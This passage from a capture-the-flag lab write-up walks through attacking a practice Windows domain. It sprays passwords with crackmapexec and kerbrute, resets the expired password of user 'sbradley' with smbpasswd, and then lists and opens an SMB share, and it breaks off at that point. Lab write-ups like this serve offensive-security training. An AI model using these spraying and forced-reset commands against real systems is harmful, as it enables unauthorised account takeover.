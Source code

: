 {% code overflow="wrap" lineNumbers="true" %}
```bash
# using crackmapexec for password spraying.
crackmapexec smb 10.10.227.117 -u user.txt -p pass.txt --continue-on-success

# using kerbrute for password spraying.
kerbrute passwordspray --dc 10.10.159.153 -d raz0rblack.thm users.txt 'roastpotatoes'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (77).png" alt=""><figcaption><p>5</p></figcaption></figure>

We get a "STATUS\_PASSWORD\_MUST\_CHANGE" message for the user "sbradley", meaning we have to change password for this user. There are 2 tools we could use:

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbpasswd -r 10.10.227.117 -U sbradley
# this worked form me.
smbpasswd.py  sbradley@10.10.227.117
```
{% endcode %}

<figure><img src=".gitbook/assets/image (78).png" alt=""><figcaption><p>6</p></figcaption></figure>

We can now access the trash" share as "sbradley"

{% code overflow="wrap" lineNumbers="true" %}
```bash
crackmapexec smb 10.10.227.117 -u sbradley -p 'Password123!' --shares
smbclient //10.10.140.231/trash -U sbradley
```
{% endcode %}

There are 3 files here.
